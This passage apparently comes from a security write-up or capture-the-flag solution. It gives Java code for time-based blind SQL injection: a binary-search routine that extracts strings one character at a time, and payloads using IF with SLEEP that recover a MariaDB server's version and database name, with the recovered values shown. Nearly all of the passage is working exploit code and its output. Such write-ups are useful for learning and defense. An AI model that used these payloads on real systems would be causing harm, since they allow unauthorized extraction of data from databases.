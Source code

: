 ```java
	public static String blindString(String injection, int len) throws Exception {	
	    StringBuilder value = new StringBuilder("");
	    for(int c = 1; c <= len; c++) {
	        int low = 10;
		int high = 126;
		int ort = 0;
		while(low<high) {
		    if( low-high == 1 ) {
		        ort = low + 1;
		    } else if ( low-high == -1 ) {
		        ort = low;
		    } else {
		        ort = (low+high)/2;
		    }
				
		    String payload = String.format(injection, c, '=', ort, PayloadRequest.TIME_TO_WAIT );
		    if( PayloadRequest.blindBoolean(payload) ) {
		        value.append( Character.toString( (char) ort));
		        break;
	            }
		    payload = String.format(injection, c, '>', ort, PayloadRequest.TIME_TO_WAIT );
		    if( PayloadRequest.blindBoolean(payload) ) {
		        low = ort;
	            } else {
		        high = ort;
		    }
	        }
	    }
	    return value.toString();
	}
```

Everything seems fine enough to start leaking some data:

### Database recon

#### version()
```java
	public static String blindVersion() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(version(),%d,1)))%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 25);
	}
	// 10.1.37-MariaDB
```

#### database()
```java
	public static String blindDatabase() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(database(),%d,1)))%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 25);
	}
	// flitebackend
```
